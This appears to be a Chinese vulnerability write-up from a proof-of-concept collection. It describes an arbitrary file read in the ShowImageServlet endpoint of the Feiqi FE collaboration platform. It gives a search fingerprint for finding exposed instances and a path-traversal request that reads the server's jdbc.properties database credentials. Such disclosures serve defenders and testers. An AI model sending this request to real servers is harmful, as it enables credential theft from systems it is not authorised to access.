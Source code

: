 # 飞企互联 FE业务协作平台 ShowImageServlet 任意文件读取漏洞

# 飞企互联 FE业务协作平台 ShowImageServlet 任意文件读取漏洞

## 漏洞描述

飞企互联 FE业务协作平台 ShowImageServlet 接口存在任意文件读取漏洞，攻击者通过漏洞可以获取服务器中敏感文件

## 漏洞影响

飞企互联 FE业务协作平台

## 网络测绘

```
"flyrise.stopBackspace.js"
```

## 漏洞复现

登陆页面

![image-20230828145057107](images/image-20230828145057107.png)

验证POC

```
/servlet/ShowImageServlet?imagePath=../web/fe.war/WEB-INF/classes/jdbc.properties&print
```

![image-20230828145109229](images/image-20230828145109229.png)

